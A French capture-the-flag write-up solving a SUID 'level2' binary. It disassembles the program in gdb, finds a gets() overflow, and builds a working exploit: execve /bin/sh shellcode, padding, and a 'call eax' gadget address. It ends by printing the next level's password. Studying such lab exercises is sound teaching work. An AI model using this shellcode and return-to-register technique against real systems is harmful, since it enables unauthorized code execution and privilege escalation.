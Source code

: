 ## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
  [...]
  ```
    - On a un binaire appartenant a level3 dans le home avec les droits SUID.

- `./level2`
  ```
    
  ```
  - Le programme attend un input
    - `test`
      - `test`
    - Le programme affiche le paramètre qu'on lui donne

- `gdb level2`
  - `set disassembly-flavor intel`
  - `info function`
    ```asm
    [...]
      0x080484d4  p
      0x0804853f  main
    [...]
    ```
    - on trouve une fonction p en plus du main
  - `disas main`
    ```asm
    Dump of assembler code for function main:
       0x0804853f <+0>:	push   ebp
       0x08048540 <+1>:	mov    ebp,esp
       0x08048542 <+3>:	and    esp,0xfffffff0
       0x08048545 <+6>:	call   0x80484d4 <p>
       0x0804854a <+11>:	leave
       0x0804854b <+12>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (aligne la stack)<br/><br/>
    - <+6>
      - Call p()<br/><br/>
    - <+11> ... <+12>
      - réinitialisation de la mémoire, fin d'exécution<br/><br/>
    - La fonction main() ne fait qu'appeler la fonction p()
    - frame_dummy() n'est pas appelée
- `disas p`
  ```asm
  Dump of assembler code for function p:
     0x080484d4 <+0>:	push   ebp
     0x080484d5 <+1>:	mov    ebp,esp
     0x080484d7 <+3>:	sub    esp,0x68
     0x080484da <+6>:	mov    eax,ds:0x8049860
     0x080484df <+11>:	mov    DWORD PTR [esp],eax
     0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
     0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
     0x080484ea <+22>:	mov    DWORD PTR [esp],eax
     0x080484ed <+25>:	call   0x80483c0 <gets@plt>
     0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
     0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
     0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
     0x080484fb <+39>:	and    eax,0xb0000000
     0x08048500 <+44>:	cmp    eax,0xb0000000
     0x08048505 <+49>:	jne    0x8048527 <p+83>
     0x08048507 <+51>:	mov    eax,0x8048620
     0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
     0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
     0x08048513 <+63>:	mov    DWORD PTR [esp],eax
     0x08048516 <+66>:	call   0x80483a0 <printf@plt>
     0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
     0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
     0x08048527 <+83>:	lea    eax,[ebp-0x4c]
     0x0804852a <+86>:	mov    DWORD PTR [esp],eax
     0x0804852d <+89>:	call   0x80483f0 <puts@plt>
     0x08048532 <+94>:	lea    eax,[ebp-0x4c]
     0x08048535 <+97>:	mov    DWORD PTR [esp],eax
     0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
     0x0804853d <+105>:	leave
     0x0804853e <+106>:	ret
  End of assembler dump.
  ```
  - <+0> ... <+3>
    - Initialisation de la mémoire (libère 104 octets pour la stack)<br/><br/>
  - <+6> ... <+14>
    - Stocke la valeur dans le registre data segment à l'adresse 0x80497c0 dans eax
      - `x/s 0x8049860`
        - `0x8049860 <stdout@@GLIBC_2.0>:	 ""`
    - Stocke la valeur de eax (stdout) dans la stack (à esp)
    - Call fflush() avec l'argument stocké dans la stack<br/><br/>
  - <+19> ... <+25>
    - Fait pointer eax sur ebp - 76
    - Stocke eax (l'adresse de ebp - 76) dans la stack (à esp)
    - Call gets() avec l'argument stocké dans la stack<br/><br/>
  - <+30> ... <+49>
    - Stocke l'adresse ebp + 4 (l'eip) dans eax
    - Stocke eax (l'adresse de l'eip) dans ebp - 12
    - Applique un filtre binaire (0xb0000000) à la valeur de eax
    - Compare la nouvelle valeur de eax avec 0xb0000000
    - Jump à <p +83> si la comparaison n'est pas vraie<br/><br/>
  - <+51> ... <+66>
    - Stocke la valeur à l'adresse 0x8048620 dans eax
      - `x/s 0x8048620`
        - `0x8048620:	 "(%p)\n"`
    - Stocke la valeur à ebp - 12 (l'adresse de l'eip) dans edx
    - Stocke la valeur de edx dans la stack (à esp + 4)
    - Stocke la valeur de eax ("(%p)\n") dans la stack (à esp)
    - Call printf() avec les arguments stockés dans la stack<br/><br/>
  - <+71> ... <+78>
    - Stocke 0x1 (1) dans la stack (à esp)
    - Call exit() avec l'argument stocké dans la stack<br/><br/>
  - <+83> ... <+89> (Jump conditionnel depuis <+49>)
    - Fait pointer eax sur ebp - 76 (le retour du gets)
    - Stocke eax (ebp - 76) dans la stack (à esp)
    - Call puts() avec l'argument stocké dans la stack<br/><br/>
  - <+94> ... <+100>
    - Fait pointer eax sur ebp - 76 (le retour du gets)
    - Stocke eax (ebp - 76) dans la stack (à esp)
    - Call strdup() avec l'argument stocké dans la stack<br/><br/>
  - <+105> ... <+106>
    - Réinitialisation de la mémoire, fin d'exécution<br/><br/>

La fonction p() fait donc:
  - fflush(stdout) => clean stdout
  - gets(ebp - 76) => attend un input
  - vérifie avec un filtre binaire et un cmp si l'eip commence par 0xb...
    - si c'est le cas:
      - printf("%p\n", eip) => affiche la valeur du pointeur sur eip
      - exit(1) => quitte la fonction
    - sinon:
      - puts(ebp - 76) => affiche le retour du gets
      - strdup(ebp - 76) => copie le retour du gets dans un malloc et le stocke dans eax

## Exploit

On sait qu'il y a un buffer overflow possible sur le gets, cependant le check au niveau de <p+44> nous empêche de réécrire l'EIP pour le faire pointer sur une fonction de la stack comme dans l'exercice précédent, il va falloir trouver un autre moyen de lancer notre exploit.

Après quelques recherches dans les fonctions importées par le programme, on trouve un call à eax dans frame_dummy:

- `gdb level2`
  - `info function`
    ```asm
    [...]
      0x080484b0  frame_dummy
    [...]
    ``` 
    - `disas frame_dummy`
      ```asm
      [...]
        0x080484cf <+31>:	call   eax
      [...]
      ```
Puisque le strdup() stocke son output dans eax, en théorie on peut écrire un exploit dans l'input du gets() et utiliser l'adresse du call eax découvert dans frame_dummy (`0x080484cf`) pour réécrire l'EIP et faire exécuter notre exploit depuis eax !

On va se servir d'un [générateur de pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) pour trouver l'offset plus rapidement:

- `echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag" > /tmp/exploit`
- `gdb level2`
  - `run < /tmp/exploit`
    ```
    Program received signal SIGSEGV, Segmentation fault.
    0x37634136 in ?? ()
    ```
    - on rentre 0x37634136 dans le générateur de pattern et il nous donne un offset de 80.

Nous créons donc un payload à l'aide du shellcode trouvé dans le lien suivant : http://shell-storm.org/shellcode/files/shellcode-219.php

On a 80 octets avant d'écraser l'EIP, donc on écrit les 21 octets de notre shellcode, 59 octets random (80 - 21) et notre adresse en little endian:
  - `python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\xcf\x84\x04\x08"' > /tmp/exploit`

Enfin nous lançons le programme avec le payload malicieux comme au level précédent:
  - `cat /tmp/exploit - | ./level2`
    ```
       j
    X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAτ
    
    ```
    - `whoami`
      ```
      level3
      ```
      - `cat /home/user/level3/.pass`
        ```
        492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
        ```
